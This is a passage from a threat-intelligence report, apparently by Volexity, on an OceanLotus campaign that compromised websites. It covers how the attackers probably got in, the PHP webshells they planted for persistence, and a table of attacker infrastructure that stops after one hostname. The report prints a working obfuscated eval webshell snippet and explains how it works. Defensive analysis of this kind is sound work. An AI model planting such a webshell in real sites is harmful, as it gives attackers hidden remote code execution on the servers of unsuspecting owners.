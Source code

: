Direct user account access to the website's content management system (CMS)
Exploitation of outdated plugins and/or CMS components

It is currently unknown how the intruders gain working credentials to the victim websites. Based on the TTPs leveraged by OceanLotus, it is possible that credentials could have been socially engineered (phished) from the victims or that the system administrators have been backdoored and a keylogger has assisted in capturing the login credentials. Alternatively, it is possible that some of the credentials were simply guessed. Several of the Vietnamese websites are running on Google's Blogspot platform, so it is reasonable to believe that those users' Google accounts may be compromised. In the case of exploitation, the CMS software used by the victim organizations was often woefully out of date. Both the core components and added plugins had remotely exploitable vulnerabilities that lead to compromise.
Persistent Access
In all examined cases, OceanLotus attackers added PHP webshells to the victim websites. In most cases, the intruders added a new file that was designed to blend in with the web directory in which it was placed. In some cases, Volexity observed OceanLotus adding PHP code to an existing legitimate file already on the webserver.
if(@$_POST['<variable-1>']&&@md5(md5($_POST['<variable-2>']))=='<md5 hash>') { $x="\x62\x61\x73\x65\x36\x34\x5f\x64\x65\x63\x6f\x64\x65";@eval($x($_POST['<variable-1>']));exit();
The hex code storage in $x translates to base64_decode. This code checks to see if variable-1 is set and then validates whether the MD5 of the MD5 of the value set for variable-2 matches an expected MD5 hash. If these both evaluate as true, the contents of variable-1 are base64 decoded and evaluated on the system. This is a simple webshell that, similar to a China Chopper shell, allows direct execution on the system under the privileges of the account running the webserver. The OceanLotus intruders use these shells to interact with the system and update their JavaScript code on the various websites.
OceanLotus also appears to have a potentially automated process that periodically checks if the webshells are still present on the victim systems.
Campaign Infrastructure
Volexity has identified a vast and sprawling amount of infrastructure leveraged by OceanLotus as a part of this strategic web compromise campaign. There are even more indicators associated with various malware campaigns that Volexity will detail in another OceanLotus post to follow. OceanLotus's attack infrastructure has several unique characteristics, which makes it easy to identify if a particular system is under their control. As a result, Volexity was able to identify numerous systems that were not directly observed in active attacks but are strongly believed to be tied to OceanLotus. In the sections below, the infrastructure has been separated into active and inactive/unknown categories. If the infrastructure is listed as active, this means that Volexity has directly observed the hostname's use in an attack. If the infrastructure is listed as inactive/unknown, this means that Volexity found evidence the hostname was used in a past attack but is no longer in use or it has never been observed in a direct attack but has unique characteristics indicative of OceanLotus infrastructure.
Active



Hostname
IPv4 Address
IPv6 Address


a.doulbeclick.org
45.76.147.201
2001:19f0:4400:48ea:5400:ff:fe71:3201

